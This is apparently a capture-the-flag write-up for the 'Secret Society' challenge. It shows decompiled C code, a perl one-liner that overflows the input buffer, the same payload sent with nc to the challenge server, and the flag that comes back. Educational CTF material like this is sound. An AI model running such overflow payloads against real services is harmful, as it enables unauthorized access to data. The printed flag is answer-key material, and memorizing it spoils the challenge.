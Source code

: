 ## Secret Society
The main idea finding the flag is Buffer Overflow.

#### Step-1:
After I downloaded `secret-society`, I reversed it with IDA, I got this source code:

**main()** function:
```c
undefined8 main(void)
{
  size_t sVar1;
  undefined8 local_d8 [2];
  undefined4 uStack200;
  undefined auStack196 [108];
  char local_58 [56];
  FILE *local_20;
  char *local_18;
  __gid_t local_c;
  
  setvbuf(stdout,(char *)0x0,2,0);
  local_c = getegid();
  setresgid(local_c,local_c,local_c);
  memset(local_58,0,0x32);
  memset(local_d8,0,0x80);
  puts("What is the secret phrase?");
  fgets((char *)local_d8,0x80,stdin);
  local_18 = strchr((char *)local_d8,10);
  if (local_18 != (char *)0x0) {
    *local_18 = '\0';
  }
  sVar1 = strlen((char *)local_d8);
  *(undefined8 *)((long)local_d8 + sVar1) = 0x657261206577202c;
  *(undefined8 *)((long)local_d8 + sVar1 + 8) = 0x6877797265766520;
  *(undefined4 *)((long)&uStack200 + sVar1) = 0x2e657265;
  auStack196[sVar1] = 0;
  local_20 = fopen("flag.txt","r");
  if (local_20 == (FILE *)0x0) {
    printf("You are a double agent, it\'s game over for you.");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  fgets(local_58,0x32,local_20);
  printf("Shhh... don\'t tell anyone else about ");
  puts((char *)local_d8);
  return 0;
}

```

#### Step-2:
So, basically I had to overflow 3 buffers in above code `local_d8 (16 bytes, our input buffer)`, `uStack200 (4 bytes)` & `auStack196 (108 bytes)`

So I tried using Debugger to get the address of the flag.


```bash
echo flag > flag.txt
perl -e 'print "A"x16 . "B"x4 . "C"x108' | ./secret-society
```

I got this output: 

```bash
What is the secret phrase?
Shhh... don't tell anyone else about AAAAAAAAAAAAAAAABBBBCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC,flag
```

#### Step-3:
So, we just have to run this remotely on the web server.

```bash
perl -e 'print "A"x16 . "B"x4 . "C"x108' | nc chall.csivit.com 30041
```
I got this output: 

```bash
What is the secret phrase?
Shhh... don't tell anyone else about AAAAAAAAAAAAAAAABBBBCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC,csivit{Bu!!er_e3pl01ts_ar5_5asy}
```
Voila! I got the flag there.

#### Step-4:
Finally the flag becomes:
`csivit{Bu!!er_e3pl01ts_ar5_5asy}`
